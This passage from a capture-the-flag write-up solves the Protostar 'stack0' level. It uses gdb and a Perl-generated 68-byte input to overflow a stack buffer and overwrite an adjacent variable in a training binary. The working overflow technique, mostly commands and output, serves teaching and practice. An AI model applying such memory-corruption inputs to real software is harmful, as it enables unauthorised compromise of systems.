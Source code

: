 Let's set a break point at the end of main, to examine the `modified` variable.

```bash
(gdb) b *main+63
Breakpoint 1 at 0x8048433: file stack0/stack0.c, line 18.
(gdb) 
```

> Notice that `[esp+0x5c]` is where the value of `modified` is stored.


Let's generate a string of 64 bytes.

```bash
user@protostar:/tmp/yariss$ perl -e 'print "A" x 64 . "\n"'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Now if we run the program, adding 4 bytes, the value of `modified` should be those 4 bytes.

```bash
Starting program: /opt/protostar/bin/stack0 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAXXXX
you have changed the 'modified' variable
```

We modified the variable !

Let's examine the value of `modified`

```bash
(gdb) x/x $esp+0x5c
0xbffff79c:     0x58585858
(gdb) x/s $esp+0x5c
0xbffff79c:      "XXXX"
```

As expected, `modified` holds the last 4 bytes that we specified, since it is just below the buffer.

Let's run this outside gdb.

```bash
user@protostar:/opt/protostar/bin$ ./stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAXXXX
you have changed the 'modified' variable
```

We solved it !

I'll see you in the next challenge !


## Stack 1

### Challenge description

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

